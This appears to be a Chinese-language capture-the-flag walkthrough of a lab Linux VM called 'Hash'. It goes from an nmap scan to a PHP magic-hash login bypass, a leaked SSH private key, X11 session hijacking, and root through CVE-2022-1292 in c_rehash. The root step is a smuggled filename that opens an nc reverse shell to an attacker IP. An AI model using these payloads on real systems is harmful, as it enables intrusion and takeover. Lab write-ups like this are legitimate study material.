 # Hash

:::note

[Linux VM] [Tested on VirtualBox] created by || sml

⏲️ Release Date // 2021-02-05

✔️ MD5 // 7707cf5723630fe8b72cd9624594e902

☠ Root // 36

💀 User // 37

📝Notes //
Hack and Fun!

:::

## 靶机启动

靶机 IP

```plaintext
192.168.56.110
```

## nmap 信息搜集

```plaintext
Nmap scan report for 192.168.56.110
Host is up (0.00055s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 1e:fb:86:3d:cf:26:a2:a0:ae:b0:00:61:0b:41:cb:ab (RSA)
|   256 80:8e:46:7b:1d:6e:13:74:22:89:ad:91:b4:44:64:ec (ECDSA)
|_  256 71:e5:e1:4f:34:16:de:ec:b5:c4:fe:f5:0a:a2:ee:fc (ED25519)
80/tcp   open  http          nginx 1.14.2
|_http-title: LOGIN
|_http-server-header: nginx/1.14.2
3389/tcp open  ms-wbt-server xrdp
```

## web 服务

查看原始数据包

```html
┌─[randark@parrot]─[~]
└──╼ $http get http://192.168.56.110/
......
<!doctype html>
<html lang="en">
<title>LOGIN</title>

    <form class="form-signin" action="check.php" method="post">

      <input type="text" autocomplete="off" id="user" name="user" name="user" placeholder="Username" required autofocus>
      <input type="password" name="password" id="password" placeholder="Password" required>
      <input type="submit" value="Login">
    </form>
<!-- Marco, remember to delete the .bak file-->
  </body>
</html>
```

尝试爆破

```bash
┌─[randark@parrot]─[~]
└──╼ $ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.56.110/FUZZ.bak -t 50
......
[Status: 200, Size: 273, Words: 26, Lines: 15, Duration: 16ms]
    * FUZZ: check
```

查看数据

```php title="check.bak"
<?php
    // Login part.
    $pass = $_POST['password'];
    //marco please dont use md5, is not secure.
    //$passwordhashed = hash('md5', $pass);
    $passwordhashed = hash('sha256',$pass);
    if ($passwordhashed == '0e0001337') {
        //Your code here
    }
    else{
        //Another code here
    }
    //To finish
?>
```

由于采用了 `==` 弱比较的方式，所以可以直接采用 `0e` 绕过

相关数据可以参考 [hashes/sha256.md at master · spaze/hashes](https://github.com/spaze/hashes/blob/master/sha256.md)

成功登陆之后，即可得到

```plaintext
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAxiKdFmWJiVfVYaNGov1xuh0/nrXnNsx2s6g5IoIJrmkX+9qzt2US
ZWMgrjLzAyB3wrLFysCPh4F8GU87pJkbpc0prM/8vB2WJCg5ktDQ6o0vwH219sPKUS4e9R
s2bPz7CJX5bzFDQ3B6ZUOs1itZ1t/uq38XuCxDjI8XxU6fusB3Rjz2XIombtFwo78W1pkX
VnQhzZOQ+b8UaC5lZeKatcZ0xdc0iQgiAbcRN7sXYCDMxMmo9KsxqzWjd56hLrv1nsTy2t
VBXzDRw+5JU4AJlGDRB/Upq/oKbGDCOmgNUsJPQKW4TgEAWhUa+t/ue2Bs/wFjCY7w/LkY
pK4bnY5eHQAAA8C/pv23v6b9twAAAAdzc2gtcnNhAAABAQDGIp0WZYmJV9Vho0ai/XG6HT
+etec2zHazqDkiggmuaRf72rO3ZRJlYyCuMvMDIHfCssXKwI+HgXwZTzukmRulzSmsz/y8
HZYkKDmS0NDqjS/AfbX2w8pRLh71GzZs/PsIlflvMUNDcHplQ6zWK1nW3+6rfxe4LEOMjx
fFTp+6wHdGPPZciiZu0XCjvxbWmRdWdCHNk5D5vxRoLmVl4pq1xnTF1zSJCCIBtxE3uxdg
IMzEyaj0qzGrNaN3nqEuu/WexPLa1UFfMNHD7klTgAmUYNEH9Smr+gpsYMI6aA1Swk9Apb
hOAQBaFRr63+57YGz/AWMJjvD8uRikrhudjl4dAAAAAwEAAQAAAQEAlMcLA/VMmGfu33kW
Im+DRUiPLCLVMo3HmFH6TRIuKNvbWY+4oT5w2NbdhFDXr4Jiyz0oTn3XiN3PDMY1N/yMCS
0MXSp0UeE5i3709Gx+Y5GOyNDcoSYVtm2Wa2B6ts4jxievfDIWmv5LudxeXReCR1oxQm+V
pQL/2fzc0ZifUj+/VSSIltgDKHxEfebfK0xShgXTSlUhickSapre2ArSdplM/rYvZLDWmd
iGkGD3VnAgRtloy5v32vPI3M++OCrHbLxgff4odAjawejPPHVj3beMgCrqwb/CCNKEyWKc
Jkjjt7nY/GUW4RfzM34LplezpmvrsLkTVMAb3KflDkDPFQAAAIBrP6Pnz0t8d/M+4hEb66
IkrftwqMC+c8Z0HMGURTMco7jXfoXaVP3eWCafEZ/RobZm0Ob1mnBZ574Qn8ai5VLPyJz6
5Ibe1Z6LWu6yCL/VFNyksnVARIuVjQt9pXpzbXOfn0H4ZHRBFyRhNHGjnft1PA59O30Dpw
UVz9eO3K2EqQAAAIEA4baQFa4RYnZ/YK4F6acjsAPhk88poLjDT86eCQ08wO5+d8BGuSHE
+BAqCZJuJTvvozYpZ5NFW4OEG9+T/HX2tvB6Ucc1pbQNNnB7CBp/VoLLTW+nuU3YJbgYlx
VnWRRudD6K7wjZEHJ44XzLdTy2wyeUvZw/iJRZmqQ5hxXCD1MAAACBAOC4ucZotWaq/pb5
V5RqLV8HU+DWFHAIfvqtYI5wCcZmAjGtXgLF1HY9MZ3bRPz2/m7cB44cdgCRbtmqBvnOvn
6h9AS4gr1HOJEpjgohkxBTc2Mf/dpCCdcNCX2Xy5ExPSilbS2rUHHCIU2J/yZGTths8fBR
cEjmSYvt0qFY/t7PAAAACm1hcmNvQGhhc2g=
-----END OPENSSH PRIVATE KEY-----
```

## User - marco

```bash
┌─[randark@parrot]─[/tmp]
└──╼ $nano id_rsa
┌─[randark@parrot]─[/tmp]
└──╼ $chmod 600 id_rsa
┌─[randark@parrot]─[/tmp]
└──╼ $ssh -i id_rsa marco@192.168.56.110
Linux hash 4.19.0-14-amd64 #1 SMP Debian 4.19.171-2 (2021-01-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Feb 16 02:45:22 2024 from 192.168.56.102
marco@hash:~$ whoami
marco
```

### flag - user

```bash
marco@hash:~$ cat user.txt
hashmanready
```

### 环境探测

```bash title="ls -lh /home/maria/"
total 4.0K
-rwxr-xr-x 1 maria maria 25 Feb  5  2021 myterm.sh
```

查看文件内容

```bash
export DISPLAY=:10
xterm
```

那简单，SSH 可以转发 X11 会话连接，将 SSH 的会话通过 `-XY` 启动 X11 转发，并且在本地启动 X11 会话客户端（例如 `X410`），然后运行这个脚本

```bash
marco@hash:/home/maria$ ./myterm.sh
```

稍等片刻，应该会有两个 X11 会话窗口出现

![xterm](img/image_20240218-161803.png)

其中就有 `maria` 用户的会话

## User - maria

将 `maria` 的 xterm 会话反弹到监听机

```bash
┌─[randark@parrot]─[~]
└──╼ $pwncat-cs -lp 8888
[16:19:54] Welcome to pwncat 🐈!
[16:20:08] received connection from 192.168.56.110:43718
[16:20:09] 0.0.0.0:8888: normalizing shell path
           192.168.56.110:43718: registered new host w/ db
(local) pwncat$ back
(remote) maria@hash:/home/maria$ whoami
maria
```

然后探测环境

```bash title="sudo -l"
Matching Defaults entries for maria on hash:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User maria may run the following commands on hash:
    (ALL : ALL) NOPASSWD: /usr/bin/c_rehash
```

### 尝试提权

参考：[alcaparra/CVE-2022-1292: CVE-2022-1292 OpenSSL c_rehash Vulnerability - POC](https://github.com/alcaparra/CVE-2022-1292)

```bash
(remote) maria@hash:/home/maria$ nano
```

然后在 `nano` 编辑器中输入

```plaintext
-----BEGIN CERTIFICATE-----
```

然后 `Ctrl`+`x`，保存文件，使用以下作为文件名

```plaintext
hey.crt`nc -c bash 192.168.56.102 6666
```

然后执行

```bash
(remote) maria@hash:/home/maria$ sudo /usr/bin/c_rehash .
```

## User - root

```bash
┌─[✗]─[randark@parrot]─[~]
└──╼ $pwncat-cs -lp 6666
[18:56:24] Welcome to pwncat 🐈!
[19:04:00] received connection from 192.168.56.110:46698
[19:04:01] 192.168.56.110:46698: registered new host w/ db
(local) pwncat$ back
(remote) root@hash:/home/maria# whoami
root
```

### flag - root

```bash
(remote) root@hash:/root# cat root.txt
hashhater
```
